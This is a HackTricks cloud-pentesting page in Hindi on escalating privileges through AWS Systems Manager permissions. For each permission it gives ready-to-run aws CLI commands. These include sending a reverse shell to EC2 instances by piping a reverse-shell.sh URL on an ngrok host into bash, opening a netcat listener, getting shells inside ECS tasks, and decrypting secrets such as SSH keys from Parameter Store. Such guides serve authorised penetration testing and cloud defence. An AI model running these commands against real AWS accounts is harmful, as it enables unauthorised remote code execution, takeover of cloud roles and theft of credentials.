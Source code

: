 # AWS - SSM Privesc

{{#include ../../../banners/hacktricks-training.md}}

## SSM

SSM के बारे में अधिक जानकारी के लिए देखें:

{{#ref}}
../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/
{{#endref}}

### `ssm:SendCommand`

एक हमलावर जिसके पास अनुमति **`ssm:SendCommand`** है, वह **Amazon SSM एजेंट चलाने वाले इंस्टेंस में कमांड निष्पादित कर सकता है** और **इसके अंदर चल रहे IAM भूमिका को समझौता कर सकता है**।
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
यदि आप इस तकनीक का उपयोग पहले से ही समझौता किए गए EC2 उदाहरण के भीतर विशेषाधिकार बढ़ाने के लिए कर रहे हैं, तो आप बस निम्नलिखित के साथ स्थानीय रूप से रिव शेल कैप्चर कर सकते हैं:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**संभावित प्रभाव:** चल रहे उदाहरणों के साथ जुड़े EC2 IAM भूमिकाओं पर सीधे प्रिवेस्क।

### `ssm:StartSession`

एक हमलावर जिसके पास अनुमति **`ssm:StartSession`** है, वह **Amazon SSM एजेंट चला रहे उदाहरणों में SSH जैसी सत्र शुरू कर सकता है** और **इसके अंदर चल रही IAM भूमिका को समझौता कर सकता है।**
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
> [!CAUTION]
> सत्र शुरू करने के लिए आपको **SessionManagerPlugin** स्थापित करना होगा: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)

**संभावित प्रभाव:** चल रहे उदाहरणों के साथ जुड़े EC2 IAM भूमिकाओं पर सीधे privesc जिनमें SSM एजेंट चल रहे हैं।

#### ECS पर Privesc

जब **ECS कार्य** **`ExecuteCommand` सक्षम** होते हैं, तो पर्याप्त अनुमतियों वाले उपयोगकर्ता `ecs execute-command` का उपयोग करके कंटेनर के अंदर **एक कमांड निष्पादित** कर सकते हैं।\
[**दस्तावेज़**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/) के अनुसार, यह उस उपकरण के बीच एक सुरक्षित चैनल बनाकर किया जाता है जिसका उपयोग आप “_exec_“ कमांड शुरू करने के लिए करते हैं और लक्षित कंटेनर के साथ SSM सत्र प्रबंधक। (इस कार्य के लिए SSM सत्र प्रबंधक प्लगइन आवश्यक है)\
इसलिए, `ssm:StartSession` वाले उपयोगकर्ता उस विकल्प को सक्षम करके **ECS कार्यों के अंदर एक शेल प्राप्त** कर सकेंगे, बस यह चलाकर:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../images/image (185).png>)

**संभावित प्रभाव:** `ExecuteCommand` सक्षम चल रहे कार्यों से जुड़े `ECS` IAM भूमिकाओं पर सीधे प्रिवेस्क।

### `ssm:ResumeSession`

एक हमलावर जिसके पास अनुमति **`ssm:ResumeSession`** है, वह **Amazon SSM एजेंट के साथ चल रहे उदाहरणों में SSH जैसी सत्र को फिर से शुरू कर सकता है** जिसमें **अविभाजित** SSM सत्र स्थिति है और **इसके अंदर चल रही IAM भूमिका को समझौता कर सकता है।**
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**संभावित प्रभाव:** चल रहे उदाहरणों के साथ जुड़े EC2 IAM भूमिकाओं पर सीधे प्रिवेस्क को प्रभावित करना जिनमें SSM एजेंट चल रहे हैं और डिस्कनेक्टेड सत्र हैं।

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

उपरोक्त अनुमतियों के साथ एक हमलावर **SSM पैरामीटर** की सूची बनाने और **उन्हें स्पष्ट पाठ में पढ़ने** में सक्षम होगा। इन पैरामीटर में आप अक्सर **संवेदनशील जानकारी** जैसे SSH कुंजी या API कुंजी पा सकते हैं।
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**संभावित प्रभाव:** पैरामीटर के अंदर संवेदनशील जानकारी खोजें।

### `ssm:ListCommands`

इस अनुमति के साथ एक हमलावर सभी **कमांड** सूचीबद्ध कर सकता है और उम्मीद है कि उन पर **संवेदनशील जानकारी** पाए।
```
aws ssm list-commands
```
**संभावित प्रभाव:** कमांड लाइनों के अंदर संवेदनशील जानकारी खोजें।

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

इन अनुमतियों के साथ एक हमलावर सभी **कमांड** की सूची बना सकता है और **आउटपुट पढ़ सकता है** जिससे उम्मीद है कि वह उस पर **संवेदनशील जानकारी** पाएगा।
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**संभावित प्रभाव:** कमांड लाइनों के आउटपुट के अंदर संवेदनशील जानकारी खोजें।

### कोडबिल्ड

आप SSM का उपयोग करके एक कोडबिल्ड प्रोजेक्ट में प्रवेश कर सकते हैं जो बनाया जा रहा है:

{{#ref}}
aws-codebuild-privesc.md
{{#endref}}

{{#include ../../../banners/hacktricks-training.md}}

